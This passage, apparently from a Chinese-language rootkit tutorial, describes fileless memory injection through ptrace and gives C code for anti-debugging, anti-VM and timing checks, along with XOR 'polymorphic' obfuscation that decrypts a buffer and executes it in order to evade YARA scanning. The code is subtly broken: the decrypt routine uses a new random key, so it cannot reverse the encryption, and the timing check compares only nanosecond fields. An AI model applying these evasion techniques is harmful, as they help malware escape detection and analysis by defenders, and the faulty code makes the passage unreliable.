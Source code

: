 无文件内存驻留是Rootkit的另一种绕过技术，通过将恶意代码注入合法进程的内存运行，规避文件扫描。这里展示的代码与之前的进程注入类似，使用mmap分配可执行内存，复制shellcode，然后通过ptrace修改目标进程的rip指向注入代码。增强方法是将代码分片存储在多个进程的内存中，通过共享内存或信号动态重组，增加分析难度。

#### 4.3 反调试

检测调试器或虚拟机，终止运行：

```clike
void anti_debug(void) {
    // 检测ptrace
    if (ptrace(PTRACE_TRACEME, 0, 1, 0) == -1) {
        exit(1);
    }
    // 检测虚拟机
    unsigned int eax, ebx, ecx, edx;
    __cpuid(1, eax, ebx, ecx, edx);
    if (ecx & (1 << 31)) {
        exit(1);
    }
    // 检测时间延迟
    struct timespec start, end;
    clock_gettime(CLOCK_MONOTONIC, &start);
    volatile int x = 0;
    for (int i = 0; i < 1000000; i++) x++;
    clock_gettime(CLOCK_MONOTONIC, &end);
    if ((end.tv_nsec - start.tv_nsec) > 1000000) {
        exit(1);
    }
}
```

**说明**：

* **工作原理**：检查`ptrace`、Hypervisor位和执行时间，规避调试和沙箱。
* **用途**：防止行为监控和动态分析。
* **挑战**：需平衡误报率。

### 五、Rootkit绕过技术

#### 5.1 针对静态检测的绕过

##### 5.1.1 多态混淆与壳加密

**目标**：规避YARA签名扫描。

**方法**：运行时动态解密代码，结合多态变换：

```clike
#include <stdlib.h>
#include <string.h>

void polymorphic_obfuscate(unsigned char *code, int len) {
    unsigned char key = rand() % 256;
    for (int i = 0; i < len; i++) {
        code[i] ^= (key + i) % 256; // 动态异或加密
    }
}

void runtime_decrypt(unsigned char *code, int len) {
    unsigned char key = rand() % 256;
    for (int i = 0; i < len; i++) {
        code[i] ^= (key + i) % 256; // 解密
    }
    void (*func)() = (void (*)())code; // 执行解密后的代码
    func();
}
```
